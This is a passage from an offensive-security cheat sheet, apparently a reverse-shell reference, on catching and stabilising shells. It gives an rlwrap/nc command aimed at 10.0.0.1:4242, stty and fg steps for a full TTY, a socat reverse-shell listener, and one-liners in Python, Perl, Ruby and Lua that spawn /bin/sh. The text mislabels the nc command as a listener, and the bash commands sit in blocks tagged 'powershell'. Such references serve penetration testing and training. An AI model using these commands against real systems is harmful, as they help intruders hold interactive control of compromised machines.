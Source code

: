## Spawn TTY Shell

In order to catch a shell, you need to listen on the desired port. `rlwrap` will enhance the shell, allowing you to clear the screen with `[CTRL] + [L]`.

```powershell
rlwrap nc 10.0.0.1 4242

rlwrap -r -f . nc 10.0.0.1 4242
-f . will make rlwrap use the current history file as a completion word list.
-r Put all words seen on in- and output on the completion list.
```

Sometimes, you want to access shortcuts, su, nano and autocomplete in a partially tty shell.

:warning: OhMyZSH might break this trick, a simple `sh` is recommended

> The main problem here is that zsh doesn't handle the stty command the same way bash or sh does. [...] stty raw -echo; fg[...] If you try to execute this as two separated commands, as soon as the prompt appear for you to execute the fg command, your -echo command already lost its effect

```powershell
ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

or use `socat` binary to get a fully tty reverse shell

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

Spawn a TTY shell from an interpreter

```powershell
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```
